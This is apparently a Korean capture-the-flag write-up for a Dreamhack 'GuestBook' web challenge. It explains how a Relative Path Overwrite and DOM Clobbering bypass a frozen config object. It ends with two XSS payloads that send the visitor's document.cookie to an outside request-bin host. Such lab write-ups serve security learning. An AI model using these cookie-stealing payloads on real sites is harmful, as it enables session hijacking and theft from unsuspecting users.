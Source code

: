 ## GuestBook
---

```php
<?php
function addLink($content){
  $content = htmlentities($content);
  $content = preg_replace('/\[(.*?)\]\((.*?)\)/', "<a href='$2'>$1</a>", $content);
  PreventXSS($content);
  return $content;
}
?>
```

<br><br>

## Solution
---

문제를 풀다가 풀릴거 같은데 익스플로잇 코드를 못짜니까 너무 화가 났다.

결국에는 문뜩 생각이 나서 풀었는데, onfocus 이벤트와 autofocus 속성을 이용해서 해결할 수 있었다..

근데 풀이를 보면 Dom Clobbering으로도 풀 수가 있었다..

<br>

```javascript
// config.js

window.CONFIG = {
  version: "v0.1",
  main: "/",
  debug: false,
  debugMSG: ""
}

// prevent overwrite
Object.freeze(window.CONFIG);
```

<br>

```html
<!-- GuestBook.php 코드 일부분 -->

<script src="config.js"></script>
<script>
  if(window.CONFIG && window.CONFIG.debug){
    location.href = window.CONFIG.main;
  }
</script> 
```

<br>

DOM Clobbering으로 공격을 진행해보면 아래와 같다.

위의 코드를 보면 ```location.href```를 하려면 조건이 성립해야 하는데, ```window.CONFIG``` 값은 ```Object.freeze``` 메소드로 인해 변경할 수 가 없다.

하지만, 자세히 보면은 ```config.js```가 상대 경로로 불러오고 있음을 알 수 있다.

따라서 경로를 ```/GuestBook.php```가 아니라 ```/GuestBook.php/```로 설정해준다면 기존에 ```localhost/config.js```를 불러오던 것이 ```localhost/GuestBook.php/config.js```를 불러오게 되어서 우회해줄 수 있는 것이다..! **(RPO 취약점)**

<br>

RPO 취약점을 이용해서 방어 코드를 우회하고 DOM Clobbering을 해줄 수 있다.

DOM Clobbering 공격의 핵심은 HTMLCollection을 만들어주는 것이다.

CONFIG의 키에 main과 debug 값을 추가해줘야 한다.

따라서 공격코드는 아래와 같다.

<br>

```
[a](javascript:location.href=`http://bzbxhgx.request.dreamhack.games?cookie=`%2bdocument.cookie' id='CONFIG' name='main)
[a](javascript:location.href=`http://bzbxhgx.request.dreamhack.games?cookie=`%2bdocument.cookie' id='CONFIG' name='debug)
```

<br>

이렇게 id에 CONFIG, name에 각각 debug와 main을 넣어준다면 console 창에서 window.CONFIG를 했을 때, HTMLCollection이 나오면서 키 값으로 main과 debug가 있음을 알 수 있다.

위의 코드를 ```GuestBook.php/?content=```에서 넣어주면 코드가 실행이 된다!!!!
